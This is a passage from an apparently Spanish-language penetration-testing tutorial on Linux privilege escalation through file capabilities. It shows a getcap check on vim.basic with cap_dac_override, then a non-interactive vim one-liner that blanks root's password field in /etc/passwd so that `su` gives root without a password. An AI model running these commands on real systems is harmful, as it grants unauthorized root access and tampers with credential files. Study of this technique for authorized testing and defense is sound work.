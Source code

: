 Este one-liner usa el comando `find` para buscar todos los ejecutables binarios en los directorios donde típicamente se encuentran, y luego usa la bandera `-exec` para ejecutar el comando `getcap` en cada uno, mostrando las capabilities que han sido establecidas para ese binario. La salida de este comando mostrará una lista de todos los ejecutables binarios en el sistema, junto con las capabilities que han sido establecidas para cada uno.

---

## Exploitation

Si obtenemos acceso al sistema con una cuenta de bajo privilegio, luego descubrimos la capability `cap_dac_override`:

### Exploiting Capabilities

```r
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Por ejemplo, el binario `/usr/bin/vim.basic` se ejecuta sin privilegios especiales, como con `sudo`. Sin embargo, debido a que el binario tiene la capability `cap_dac_override` establecida, puede escalar los privilegios del usuario que lo ejecuta. Esto permitiría al penetration tester obtener la capability `cap_dac_override` y realizar tareas que requieren esta capability.

Vamos a ver el archivo `/etc/passwd` donde se especifica el usuario `root`:

```r
cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

Podemos usar la capability `cap_dac_override` del binario `/usr/bin/vim` para modificar un archivo del sistema:

```r
/usr/bin/vim.basic /etc/passwd
```

También podemos hacer estos cambios en un modo no interactivo:

```r
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Ahora, podemos ver que la `x` en esa línea ha desaparecido, lo cual significa que podemos usar el comando `su` para iniciar sesión como root sin que se nos pida la contraseña.